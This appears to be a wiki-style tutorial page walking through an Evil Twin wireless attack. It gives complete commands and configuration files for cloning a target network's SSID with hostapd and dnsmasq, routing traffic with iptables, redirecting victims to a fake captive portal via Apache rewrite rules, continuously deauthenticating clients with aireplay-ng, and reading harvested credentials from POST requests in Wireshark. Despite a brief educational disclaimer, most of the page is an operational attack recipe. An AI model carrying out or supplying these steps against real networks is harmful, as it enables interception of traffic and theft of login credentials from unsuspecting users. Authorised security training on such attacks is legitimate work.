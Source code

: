 # Evil-Twin Attack



{% hint style="danger" %}
This is for educational purposes and only to be performed on networks you have permission to do so.
{% endhint %}

Basic info on Wireless can be found [here](../../networking/wireless/).\
\
This will be a walk through on performing an [Evil Twin wireless attack](https://www.varonis.com/blog/evil-twin-attack) and [Captive Portals](https://www.linksys.com/what-is-a-captive-portal.html).

An evil twin is a fake wireless access point(AP) that looks like a real one. The concept is to set up a malicious wireless network with the same SSID name as the target.

This is not required to have a WiFi Adapter that supports monitor mode, also known as packet injection. Though this will required if kicking clients off their network to connect to ours.

## Hardware

I myself have and recommend these adapters:

* [Alfa AWUS036ACM](https://www.amazon.com/Alfa-AWUS036ACM-Long-Range-Dual-Band-Wireless/dp/B073X6RL9D) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036ACHM](https://www.amazon.com/gp/product/B08SJBV1N3/ref=ox\_sc\_act\_title\_1?smid=A20G3A026MV70R\&psc=1) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036ACH](https://www.amazon.com/dp/B08SJC78FH?ref\_=cm\_sw\_r\_cp\_ud\_dp\_PSZZG6J9X0XH40GXB685) <-- Capable of 2.4GHz and 5GHz (This more than likely \*will\* require driver installation)
* [Panda Wireless PAU09 N600](https://www.amazon.com/Panda-Wireless-PAU09-Adapter-Antennas/dp/B01LY35HGO) <-- Capable of 2.4GHz and 5GHz
* [Alfa AWUS036NEH](https://www.amazon.com/AWUS036NEH-Range-WIRELESS-802-11b-USBAdapter/dp/B0035OCVO6)
* [Alfa AWUS036NH](https://www.amazon.com/Alfa-AWUS036NH-802-11g-Wireless-Long-Range/dp/B003YIFHJY)
* [Panda Wireless PAU05](https://www.amazon.com/Panda-300Mbps-Wireless-USB-Adapter/dp/B00EQT0YK2)
* [TP-Link TL-WN722N](https://www.amazon.com/TP-Link-TL-WN722N-Wireless-network-Adapter/dp/B002SZEOLG)
* [Ralink USB WiFi RT5370](https://www.amazon.com/Ralink-RT5370-Raspberry-Adapter-Function/dp/B019XUDHFC)

You can also use a device such as [WiFi Pineapple](https://shop.hak5.org/products/wifi-pineapple). This primarily works on open networks.

First we install the prerequisites

```
sudo apt install -y dnsmasq and hostapd aircrack-ng
```

## Finding target

First we find our target, I will target "Open-WiFi" in this example. we use airodump for this

```
sudo airodump-ng (interface) 
```

<figure><img src="../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

Kill process that may interfere

```
sudo airmon-ng check kill
```

<figure><img src="../../.gitbook/assets/image (820).png" alt=""><figcaption></figcaption></figure>

now put the interface into monitor mode if we're deauthenticating a client.

```
sudo airmon-ng start (interface)
```

<figure><img src="../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

## Setup AP

Create `dnsmaqs.conf` file

```
# Set the wifi interface
interface=(interface)

# Set the IP range that can be given to clients
dhcp-range=10.0.0.10,10.0.0.100,255.255.255.0,8h

# Set the gateway IP address
dhcp-option=3,10.0.0.1

# Set DNS server address
dhcp-option=6,10.0.0.1

# Set Server
server=8.8.8.8

# logs
log-queries
log-dhcp

# Redirect all requests to 10.0.0.1
#address=/#/10.0.0.1

# Redirect google to 10.0.0.1
#address=/google.com/10.0.0.1
#address=/www.google.com/10.0.0.1
#address=/google.com/www.google.com.com/10.0.0.1
```

<figure><img src="../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

Note to uncomment lines. if we uncomment the `#address=/#/10.0.0.1` this will let clients connect but they will not get internet access as the pound sign(`#`) is a wildcard for dnsmasq. So they will connect to the AP, then immediately asked to sign-in with the Evil Portal that is setup.

So instead we can redirect websites back to our Evil Portal instead.

Create `hostapd.conf` and fill in with target info

```
interface=(interface)
driver=nl80211
ssid=(Target AP)
hw_mode=g
channel=(Target channel)
macaddr_acl=0
ignore_broadcast_ssid=0
```

<figure><img src="../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

Assign the interface a gateway and netmask

```
sudo ifconfig (interface) up 10.0.0.1 netmask 255.255.255.0
```

Add the routing table

```
sudo route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1
```

Setup an easy script for IP with:

```
sudo iptables --flush
sudo iptables --table nat --append POSTROUTING --out-interface (internet interface) -j MASQUERADE 
sudo iptables --append FORWARD --in-interface (wireless interface) -j ACCEPT 
sudo iptables -t nat -A POSTROUTING -j MASQUERADE
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

<figure><img src="../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

I named mine IP-Tables.sh. Make it executable and run it

```
chmod +x IP-Tables.sh
sudo ./IP-Tables.sh
```

If you want the AP setup without using a captive portal, just run dnsmasq and hostapd

Start dnsmasq with

```
sudo dnsmasq -C (path/to/dnsmasq.conf)
```

Start hostapd with

```
sudo hostapd (path/to/hostapd.conf)
```

We can run the command with a -B at the end to push it to the background. Though if we do this, we don't see when a client connects

```
sudo hostapd (path/to/hostapd.conf) -B
```

### Captive Portals

Put your captive portal files, and put them in the `/var/www/html/` directory.

[Example Portals here](https://github.com/Th4ntis/Evil-Portals.git)

Edit `/etc/apache2/sites-enabled/000-default.conf` and add the following to the end

```
sudo nano /etc/apache2/sites-enabled/000-default.conf
```

```
<Directory "/var/www/html">
RewriteEngine On
RewriteBase /
RewriteCond %{HTTP_HOST} ^www\.(.*)$ [NC]
RewriteRule ^(.*)$ http://%1/$1 [R=301,L]

RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule ^(.*)$ / [L,QSA]
</Directory>
```

<figure><img src="../../.gitbook/assets/image (821).png" alt=""><figcaption></figcaption></figure>

Start the web server

```
sudo service apache2 start
```

Start dnsmasq with:

```
sudo dnsmasq -C (path/to/dnsmasq.conf)
```

Start hostapd AP with:

```
sudo hostapd (path/to/hostapd.conf)
```

We can run the command with a -B at the end to push it to the background. Though if we do this, we don't see when a client connects

```
sudo hostapd (path/to/hostapd.conf) -B
```

<figure><img src="../../.gitbook/assets/image (822).png" alt=""><figcaption></figcaption></figure>

Once we're ready, we can disconnect clients from their network to connect to ours with aireplay.

```
sudo aireplay-ng -0 0 -a (BSSID) (interface)
```

OR if we want to deauth a specific client:

```
sudo aireplay-ng -0 0 -a (bssid) -c (Client MAC Address) (interface)
```

the `-0 0` will send deauth packets continuously until stopped. we can change it to `-0 10` to send just 10 deauth packets.

<figure><img src="../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

## Post connection

Once they are connected, or even before, we can start intercepting traffic with whatever tools we want, like [Wireshark](../../networking/wireshark.md), [tshark](https://www.wireshark.org/docs/man-pages/tshark.html), [tcpdump](https://www.tcpdump.org/), etc. In this case I'll use wireshark on `wlan0`, the interface I was broadcasting from.

<figure><img src="../../.gitbook/assets/image (823).png" alt=""><figcaption></figcaption></figure>

As the user attempts to go to any page, they are taken to a login portal, asked enter a username/password on the portal and it will be captured.

We look for `HTTP Post Request` , then HTML Form URL Encoded, we will see their credentials.

<figure><img src="../../.gitbook/assets/image (824).png" alt=""><figcaption></figcaption></figure>

#### Wireshark to filter for packets

* `dns and ip.adr=(IP)` to see sites they are going to
* `frame contains (word)` will search for various words
* `http.request.method=="POST"` will show us login info.
